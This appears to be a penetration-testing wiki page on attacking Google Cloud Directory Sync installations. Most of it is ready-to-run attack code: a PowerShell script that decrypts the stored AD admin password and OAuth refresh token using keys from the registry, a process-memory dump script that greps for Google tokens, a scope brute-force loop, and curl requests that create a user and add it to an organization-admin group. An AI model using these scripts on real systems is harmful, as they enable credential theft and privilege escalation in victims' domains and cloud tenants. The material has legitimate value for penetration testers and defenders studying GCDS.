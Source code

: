 # GCDS - Google Cloud Directory Sync

## Basic Information

This is a tool that can be used to **sync your active directory users and groups to your Workspace** (and not the other way around by the time of this writing).

It's interesting because it's a tool that will require the **credentials of a Workspace superuser and privileged AD user**. So, it might be possible to find it inside a domain server that would be synchronising users from time to time.

> [!NOTE]
> To perform a **MitM** to the **`config-manager.exe`** binary just add the following line in the `config.manager.vmoptions` file: **`-Dcom.sun.net.ssl.checkRevocation=false`**

> [!TIP]
> Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GCDS**, get information about the configuration and **even the passwords and encrypted credentials**.

Also note that GCDS won't synchronize passwords from AD to Workspace. If something it'll just generate random passwords for newly created users in Workspace as you can see in the following image:

![[../../../images/telegram-cloud-photo-size-4-5780773316536156543-x.jpg]]

### GCDS - Disk Tokens & AD Credentials

The binary `config-manager.exe` (the main GCDS binary with GUI) will store the configured Active Directory credentials, the refresh token and the access by default in a **xml file** in the folder **`C:\Program Files\Google Cloud Directory Sync`** in a file called **`Untitled-1.xml`** by default. Although it could also be saved in the `Documents` of the user or in **any other folder**.

Moreover, the registry **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** inside the key **`open.recent`** contains the paths to all the recently opened configuration files (xmls). So it's possible to **check it to find them**.

The most interesting information inside the file would be:

```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```

Note how the **refresh** **token** and the **password** of the user are **encrypted** using **AES CBC** with a randomly generated key and IV stored in **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** (wherever the **`prefs`** Java library store the preferences) in the string keys **`/Encryption/Policy/V2.iv`** and **`/Encryption/Policy/V2.key`** stored in base64.

<details>

**Powershell script to decrypt the refresh token and the password**

```bash
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
    $regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
    if (-not $regKey) {
        Throw "Registry key not found: HKCU\$regPath"
    }
}
catch {
    Write-Error "Failed to open registry key: $_"
    exit
}

# Get Base64-encoded IV and Key from the registry
try {
    $ivBase64 = $regKey.GetValue($ivKeyName)
    $ivBase64 = $ivBase64 -replace '/', ''
    $ivBase64 = $ivBase64 -replace '\\', '/'
    if (-not $ivBase64) {
        Throw "IV not found in registry"
    }
    $keyBase64 = $regKey.GetValue($keyKeyName)
    $keyBase64 = $keyBase64 -replace '/', ''
    $keyBase64 = $keyBase64 -replace '\\', '/'
    if (-not $keyBase64) {
        Throw "Key not found in registry"
    }
}
catch {
    Write-Error "Failed to read registry values: $_"
    exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
    $aes = [System.Security.Cryptography.Aes]::Create()
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aes.KeySize = 256
    $aes.BlockSize = 128
    $aes.Key = $keyBytes
    $aes.IV = $ivBytes

    $decryptor = $aes.CreateDecryptor()
    $memoryStream = New-Object System.IO.MemoryStream
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
    $cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
    $cryptoStream.FlushFinalBlock()
    $plaintextBytes = $memoryStream.ToArray()

    $cryptoStream.Close()
    $memoryStream.Close()

    return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```

</details>

> [!NOTE]
> Note that it's possible to check this information checking the java code of **`DirSync.jar`** from **`C:\Program Files\Google Cloud Directory Sync`** searching for the string `exportkeys` (as thats the cli param that the binary `upgrade-config.exe` expects to dump the keys).

Instead of using the powershell script, it's also possible to use the binary **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** with the param `-exportKeys` and get the **Key** and **IV** from the registry in hex and then just use some cyberchef with AES/CBC and that key and IV to decrypt the info.

### GCDS - Dumping tokens from memory

Just like with GCPW, it's possible to dump the memory of the process of the `config-manager.exe` process (it's the name of the GCDS main binary with GUI) and you will be able to find refresh and access tokens (if they have been generated already).\
I guess you could also find the AD configured credentials.

<details>

**Dump config\-manager.exe processes and search tokens**

```bash
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
    "ya29\.[a-zA-Z0-9_\.\-]{50,}",
    "1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
    New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
    Write-Output "Dumping process with PID: $processId"
    & $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
    $dumpFile = $_.FullName
    $baseName = $_.BaseName
    $asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
    $unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

    Write-Output "Extracting strings from $dumpFile"
    & $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
    & $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

    $outputFiles = @($asciiStringsFile, $unicodeStringsFile)

    foreach ($file in $outputFiles) {
        foreach ($regex in $tokenRegexes) {

            $matches = Select-String -Path $file -Pattern $regex -AllMatches

            $uniqueMatches = @{}

            foreach ($matchInfo in $matches) {
                foreach ($match in $matchInfo.Matches) {
                    $matchValue = $match.Value
                    if (-not $uniqueMatches.ContainsKey($matchValue)) {
                        $uniqueMatches[$matchValue] = @{
                            LineNumber = $matchInfo.LineNumber
                            LineText   = $matchInfo.Line.Trim()
                            FilePath   = $matchInfo.Path
                        }
                    }
                }
            }

            foreach ($matchValue in $uniqueMatches.Keys) {
                $info = $uniqueMatches[$matchValue]
                Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
            }
        }

        Write-Output ""
    }
}

Remove-Item -Path $dumpFolder -Recurse -Force
```

</details>

### GCDS - Generating access tokens from refresh tokens

Using the refresh token it's possible to generate access tokens using it and the client ID and client secret specified in the following command:

```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
     --data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
     https://www.googleapis.com/oauth2/v4/token
```

### GCDS - Scopes

> [!NOTE]
> Note that even having a refresh token, it's not possible to request any scope for the access token as you can only requests the **scopes supported by the application where you are generating the access token**.
>
> Also, the refresh token is not valid in every application.

By default GCSD won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details>

**Bash script to brute\-force scopes**

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
    echo -ne "Testing $scope           \r"
    if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
     --data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
     --data "scope=$scope" \
     https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
        echo ""
        echo $scope
        echo $scope >> /tmp/valid_scopes.txt
    fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```

</details>

And this is the output I got at the time of the writing:

```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```

#### Create a user and add it into the group `gcp-organization-admins` to try to escalate in GCP

```bash
# Create new user
curl -X POST \
  'https://admin.googleapis.com/admin/directory/v1/users' \
  -H 'Authorization: Bearer <ACCESS_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{
    "primaryEmail": "deleteme@domain.com",
    "name": {
      "givenName": "Delete",
      "familyName": "Me"
    },
    "password": "P4ssw0rdStr0ng!",
    "changePasswordAtNextLogin": false
  }'

# Add to group
curl -X POST \
  'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
  -H 'Authorization: Bearer <ACCESS_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{
    "email": "deleteme@domain.com",
    "role": "OWNER"
  }'

# You could also change the password of a user for example
```

> [!CAUTION]
> It's not possible to give the new user the Super Amin role because the **refresh token doesn't have enough scopes** to give the required privileges.

